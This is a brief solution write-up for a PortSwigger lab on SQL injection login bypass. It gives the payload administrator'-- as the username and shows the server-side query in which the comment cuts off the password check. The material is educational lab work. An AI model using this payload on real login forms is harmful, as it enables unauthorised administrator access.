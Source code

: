 # [Lab: SQL injection vulnerability allowing login bypass](https://portswigger.net/web-security/sql-injection/lab-login-bypass)

## Lab

This lab contains an SQL injection vulnerability in the login function.

To solve the lab, perform an SQL injection attack that logs in to the application as the `administrator` user.

## Solutions

Login with credential: `administrator'--` any password
server-side query:

```sql
SELECT * FROM users WHERE username = 'administrator'--' AND password = 'a'`
```
